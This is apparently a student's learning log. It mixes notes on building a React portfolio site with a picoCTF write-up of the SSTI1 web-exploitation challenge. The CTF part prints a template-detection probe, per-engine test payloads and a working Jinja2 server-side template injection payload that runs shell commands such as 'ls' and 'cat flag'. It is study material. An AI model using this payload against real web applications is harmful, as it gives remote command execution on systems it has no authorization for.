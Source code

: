 #### Personal Project

Exporting my functions was being annoying because I was not doing it properly. I thought I could just `export function <name>`
but I had to `export default <function-name>` after the definition.

json objects in javascript are defined as follows:
```javascript
{
	'name': 'Chris',
	'age': 'old'
}
```

I was struggling through having my json object pass to my child components. Turns out I just needed to surround the parameter in {} to destructure it (I think).


So far I have added and styled the individual job experience details.

My guy, you have to someday remember that your css doesnt apply if you dont IMPORT IT

Progress for today:

- Added the work experience section
- Added a generic header
- Started on the projects section.

Todo Tomorrow:
- Finish the porjects section
- Start summary
- Start Main header
- Start Main Sub Header
- Start Skills Section

### PicoCTF

Back to reading the primer.
Now it's talking about XSS (cross site scripting) and to me this starts to really feel like the hackery kinda stuff that look so cool and sounds so cool.
Okay they mostly were talking about injecting javascript into an unesecured field and I think thats super simple.

Transport Ciphers:
  

The Primer is just not keeping my attention today so I will just try to do challenges instead.

#### [SSTI1](https://play.picoctf.org/practice/challenge/492)
Web Explotation
Desc: I made a cool website where you can announce whatever you want! Try it out!
There is a website that has an input that lets me type into it and it moves me to another page with that text on it. 

I tried executin g a console.log and it didnt do anythin.
The hint says "Server-side template injection" so I will look into that and see what it is.

Basically it's trying to inject code into a template to break out of it and run our code.

Apparently this `${{<%[%'"}}%\.` is useful to inject since it will tell us if there is a template to exploit
Inputting that gave me an internal server exception which means that the input is not being sanitized.

I see that it's the {{ part that is causing the internal server error
Looking at a solution showed that these are the different templating languages and how to check them:
```
Jinja2 (Python Flask/Django): {{ 7*7 }}
Freemarker (Java): ${7*7}
Velocity (Java): #set($a = 7*7)${a}
Thymeleaf (Java): ${7*7}
Twig (PHP Symfony): {{ 7*7 }}
Smarty (PHP): {$7*7}
Mako (Python): <% print 7*7 %>
```

I see that {{ 7*7 }} gives me 49 so it's a python application or a twig application
I have no idea what to look for from here. 
From here we can start injecting any python code we want so the solution showed using the whoami command so I assume I can root around the whole system this way.

`{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read()}}` lets me run cli commands and read the output in python

`{{self.
_TemplateReference__context.
cycler.
__init__.
__globals__.
os.
popen('ls').
read()}}`

I used cat flag and it output the contents of the flag file on the web app.

Once I knew that I was able to execute commands it was really easy, but it took looking at a solution to know that I *could* do that.

When injecting into jinja we aren't able to use any import statements that would easily allow us to import and then call sys or os. So instead we have to find a package that is being used that already has the import of os or sys so we can make system calls. 
And thats what the code below is doing
`{{self.
_TemplateReference__context.
cycler.
__init__.
__globals__.
`

Then its as simple as using the os package the same way we normally would.
`os.
popen('ls').
read()}}`


